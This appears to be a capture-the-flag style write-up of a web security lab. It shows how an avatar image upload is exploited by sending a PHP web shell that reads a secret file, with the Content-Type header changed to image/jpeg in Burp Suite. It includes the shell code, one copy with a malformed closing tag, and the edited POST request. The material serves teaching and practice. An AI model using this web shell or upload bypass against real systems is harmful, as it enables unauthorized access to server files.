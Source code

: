 # Login
![1_0](01.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.

![3_0](03.png)

From the image we know there is no file restiction to upload. Now we have to create an executable file to execute via web shell.

# Exploit

We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![4_0](04.png)

By uploading the php file we got an error that only jpeg and png file extentions are allowed.

So now we have to forward the php file as image file extention. For that we are using burpsuite.

![5_0](05.png)

Now using Burp Suite Intercept we are intercepting the upload POST request. From the image we can know the Content-Disposition, Content-Type.

```bash
20. -----------------------------1502193731177638880733178657
21. Content-Disposition: form-data; name="avatar"; filename="sus.php"
22. Content-Type: application/x-php
23.
24. <?php echo file_get_contents('/home/carlos/secret'); ?>
```
From the Intercept we have to edit the Content-Type Header of the uploading file. And we have to forward it. In order to do that we have to edit the POST request.

```bash
20. -----------------------------1502193731177638880733178657
21. Content-Disposition: form-data; name="avatar"; filename="sus.php"
22. Content-Type: image/jpeg
23.
24. <?php echo file_get_contents('/home/carlos/secret'); ?>
```

We have edited the POST request. Now Forward the request.

![7_0](07.png)
![8_0](08.png)

Successfully we uploaded the php file.Now we have to retive the output of the executable file.

From the above image we can know our file has been uploaded to files/avatars/. Let's redirect to the directory in URL.

![9_0](09.png)

We got the Solution.

# Conclution
From this lab we gained the basic idea of how to Content-Type restriction bypass image upload function vunerablity.